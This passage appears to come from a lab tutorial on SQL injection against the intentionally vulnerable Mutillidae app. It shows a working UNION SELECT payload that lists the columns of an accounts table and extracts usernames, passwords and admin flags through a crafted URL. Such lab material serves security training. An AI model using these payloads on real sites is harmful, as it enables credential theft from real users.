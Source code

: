 ![alt text](img/23.png)




The column names of the accounts is displayed below for the following url:




Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :

![alt text](img/24.png)
